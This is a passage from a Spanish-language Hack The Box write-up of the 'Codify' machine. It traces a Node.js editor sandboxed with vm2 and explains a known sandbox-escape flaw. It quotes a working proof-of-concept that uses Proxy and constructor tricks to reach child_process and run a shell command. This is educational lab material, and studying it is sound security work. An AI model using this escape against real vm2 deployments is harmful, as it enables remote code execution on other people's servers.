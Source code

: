 <img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/codify/htb574-page80-editor.png" style="width: 100%;"/>

Testeando cositas, efectivamente no podemos ejecutar varias cosas o no vemos la respuesta esperada.

Recorriendo el sitio web, llegamos también al apartado `/about`, en el cual nos cuentan de ellos como empresa y de su editor, esta última parte no interesa.

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/codify/htb574-page80-about.png" style="width: 100%;"/>

Nos dice que la tecnología que esta detrás del **Sandbox** se llama [vm2](https://www.npmjs.com/package/vm2), perfecto, tenemos algo para buscar y aventurarnos...

# Explotación [#](#explotacion) {#explotacion}

Si visitamos el sitio oficial de **npm** (gestor de paquetes de `Node.js`) donde se aloja esta librería, nos informamos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/codify/htb574-google-npmVM2containsVULNS.png" style="width: 100%;"/>

Y si profundizamos:

* [https://security.snyk.io/package/npm/vm2](https://security.snyk.io/package/npm/vm2)

Encontramos varias vulns y **PoCs** donde ejecutan comandos bypasseando el sandbox :O

* [Snyk.io - Sandbox Bypass](https://security.snyk.io/vuln/SNYK-JS-VM2-5537100)

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/codify/htb574-google-snykio-vm2SANDOXbypassRCE.png" style="width: 100%;"/>

La vulnerabilidad nace en el uso de la función [Proxy](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Proxy) para crear un objeto con contenido malicioso en el sistema.

Pero para lograr esto, se hace uso de la función [Function](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function), la cual permite crear nuevas funciones en el mismo momento en que se está ejecutando la aplicación (sin estar definida previamente en el código). O sea, si quieres crear una función mientras el código se está ejecutando, lo puedes hacer y la puedes ejecutar.

Así es como se ayudan las dos funciones para saltarse el aislamiento y ejecutar comandos en el sistema. BRUTAL!

La vuln tiene varios **PoC**, como este (que también tiene una explicación de como funciona):

* [POC Sandbox Bypass](https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac)

Si tomamos el código y lo detallamos, nos indica que si todo va bien y el RCE se cumple, deberíamos obtener `hacked` como respuesta:

```js
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("echo hacked").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
```